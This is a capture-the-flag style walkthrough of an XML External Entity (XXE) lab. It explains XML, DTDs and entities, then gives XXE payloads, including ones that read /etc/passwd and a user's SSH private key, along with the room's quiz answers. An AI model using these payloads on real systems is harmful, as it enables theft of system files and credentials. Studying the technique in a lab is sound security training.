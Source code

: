 xxe

`This room aims at providing the basic introduction to XML External entity(XXE vulnerability.`


### TASK 1:Deploy the VM:


An XML External Entity (XXE) attack is a vulnerability that abuses features of XML parsers/data. It often allows an attacker to interact with any backend or external systems that the application itself can access and can allow the attacker to read the file on that system. They can also cause Denial of Service (DoS) attack or could use XXE to perform Server-Side Request Forgery (SSRF) inducing the web application to make requests to other applications. XXE may even enable port scanning and lead to remote code execution.  
  
There are two types of XXE attacks: in-band and out-of-band (OOB-XXE).  
1) An in-band XXE attack is the one in which the attacker can receive an immediate response to the XXE payload.

2) out-of-band XXE attacks (also called blind XXE), there is no immediate response from the web application and attacker has to reflect the output of their XXE payload to some other file or their own server.



 ### TASK 2: eXtensible Markup Language:
 
 Before we move on to learn about XXE exploitation we'll have to understand XML properly.  
  
**What is XML?**  
  
XML (eXtensible Markup Language) is a markup language that defines a set of rules for encoding documents in a format that is both human-readable and machine-readable. It is a markup language used for storing and transporting data.  
  
**Why we use XML?**  
  
1\. XML is platform-independent and programming language independent, thus it can be used on any system and supports the technology change when that happens.  
  
2\. The data stored and transported using XML can be changed at any point in time without affecting the data presentation.  
  
3\. XML allows validation using DTD and Schema. This validation ensures that the XML document is free from any syntax error.  
  
4\. XML simplifies data sharing between various systems because of its platform-independent nature. XML data doesn’t require any conversion when transferred between different systems.  
  
**Syntax**  
  
Every XML document mostly starts with what is known as XML Prolog.  
  
`<?xml version="1.0" encoding="UTF-8"?>`

  
Above the line is called XML prolog and it specifies the XML version and the encoding used in the XML document. This line is not compulsory to use but it is considered a \`good practice\` to put that line in all your XML documents.  
  
  
Every XML document must contain a \`ROOT\` element.  
  
Ex:  

`<?xml version="1.0" encoding="UTF-8"?>  
<mail>  
   <to>falcon</to>  
   <from>feast</from>  
   <subject>About XXE</subject>  
   <text>Teach about XXE</text>  
</mail>`  

  
In the above example the `<mail>` is the ROOT element of that document and `<to>`, `<from>`, `<subject>`, `<text>` are the children elements. If the XML document doesn't have any root element then it would be considered`wrong` or `invalid` XML doc.  
  
Another thing to remember is that XML is a case sensitive language. If a tag starts like `<to>` then it has to end by `</to>` and not by something like `</To>`(notice the capitalization of `T`)  
  
Like HTML we can use attributes in XML too. The syntax for having attributes is also very similar to HTML.  
  
Ex:  
  
`<text category = "message">You need to learn about XXE</text>  
`  

  
In the above example `category` is the attribute name and `message` is the attribute value.

 
1.  **Is XML case sensitive?**
` yes`

2. **Is it compulsory to have XML prolog in XML documents?**
`no`

3. **Can we validate XML documents against so schema?**
`yes`

4. **How can we specify XML version and encoding in XML document?**
`xml prolog`


### TASK 3: DTD

Before we move on to start learning about XXE we'll have to understand what is DTD in XML.

DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document.

Let us try to understand this with the help of an example. Say we have a file named `note.dtd` with the following content:  

`<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>`  

Now we can use this DTD to validate the information of some XML document and make sure that the XML file conforms to the rules of that DTD.

Ex: Below is given an XML document that uses `note.dtd`
`
<?xml version\="1.0" encoding\="UTF-8"?\>  
<!DOCTYPE note SYSTEM "note.dtd"\>  
<note\>  
 <to\>falcon</to\>  
 <from\>feast</from\>  
 <heading\>hacking</heading\>  
 <body\>XXE attack</body\>  
</note\>
`

So now let's understand how that DTD validates the XML. Here's what all those terms used in `note.dtd` mean  

-   !DOCTYPE note -  Defines a root element of the document named **note**
-   !ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
-   !ELEMENT to - Defines the `to` element to be of type "#PCDATA"
-   !ELEMENT from - Defines the `from` element to be of type "#PCDATA"
-   !ELEMENT heading  - Defines the `heading` element to be of type "#PCDATA"
-   !ELEMENT body - Defines the `body` element to be of type "#PCDATA"

    **NOTE**: #PCDATA means parseable character data.
	
	1. With what extension do you save a DTD file?
	*dtd*
	
	2. How do you define a new ELEMENT?
	*!ELEMENT*
	
	3. How do you define a ROOT element?
	*!DOCTYPE*
	
	4. How do you define a new ENTITY?
	*!ENTITY*
	
	
	

### TASK 4: XXE payload

Now we'll see some XXE payload and see how they are working.  
  
1) The first payload we'll see is very simple. If you've read the previous task properly then you'll understand this payload very easily.  
  
`<!DOCTYPE replace [<!ENTITY name "feast"> ]>  
 <userInfo>  
  <firstName>falcon</firstName>  
  <lastName>&name;</lastName>  
 </userInfo>  
`  

  
As we can see we are defining a `ENTITY` called `name` and assigning it a value `feast`. Later we are using that ENTITY in our code.  

2) We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword  
  
`<?xml version="1.0"?>  
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>  
<root>&read;</root>`  
  
Here again, we are defining an ENTITY with the name `read` but the difference is that we are setting it value to \`SYSTEM\` and path of the file.  
  
If we use this payload then a website vulnerable to XXE(normally) would display the content of the file `/etc/passwd`.

In a similar manner, we can use this kind of payload to read other files but a lot of times you can fail to read files in this manner or the reason for failure could be the file you are trying to read.


*Try the payload mentioned in description on the website.*


### TASK 5 : Exploiting

Now let us see some payloads in action. The payload that I'll be using is the one we saw in the previous task.

1) Let's see how the website would look if we'll try to use the payload for displaying the name.

![](https://i.imgur.com/OHXXxi4.png)  


On the left side, we can see the burp request that was sent with the URL encoded payload and on the right side we can see that the payload was able to successfully display name `falcon feast`

  
2) Now let's try to read the `/etc/passwd`

![](https://i.imgur.com/092GSLz.png)


1. Try to display your own name using any payload.

*payload:*
`<!DOCTYPE replace \[<!ENTITY lastname "cat"> \]>  
<userInfo>  
<firstName>hacker</firstName>  
<lastName>&lastname;</lastName>  
</userInfo>`

![[Pasted image 20210609130544.png]]

2. See if you can read the /etc/passwd

*payload*:
`
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
`

![[Pasted image 20210609130615.png]]

3. What is the name of the user in /etc/passwd
*falcon*

4. Where is falcon's SSH key located?
*HINT:/home/falcon/.ssh/id\_rsa*

5. What are the first 18 characters for falcon's private key

*payload*:
`
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa
'>]>
<root>&read;</root>
`

![[Pasted image 20210609130832.png]]

